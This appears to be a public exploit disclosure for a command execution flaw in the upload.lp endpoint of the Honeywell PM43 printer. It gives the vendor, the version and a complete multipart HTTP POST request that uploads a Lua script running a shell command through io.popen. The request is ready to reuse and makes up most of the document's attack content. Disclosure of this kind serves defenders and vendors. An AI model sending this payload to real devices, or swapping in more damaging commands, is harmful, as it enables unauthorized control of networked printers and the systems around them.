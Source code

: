 

#### Exploit Title

Honeywell Products upload.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used

![image-20231212105543382](./image-20231212105543382.png)

```
POST /manage/upload.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=949644229ab94d3997700449e0c73c7b2bd3b12c51a4be94f
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypQN2i3Yr
Content-Length: 261

------WebKitFormBoundarypQN2i3Yr
Content-Disposition: form-data; name="file";filename="test222.lua"

local command = "id"
local handle = io.popen(command)
local result = handle:read("*a")
print(result)
handle:close()
------WebKitFormBoundarypQN2i3Yr--
```

![image-20231212105646654](./image-20231212105646654.png)

![image-20231212105658660](./image-20231212105658660.png)
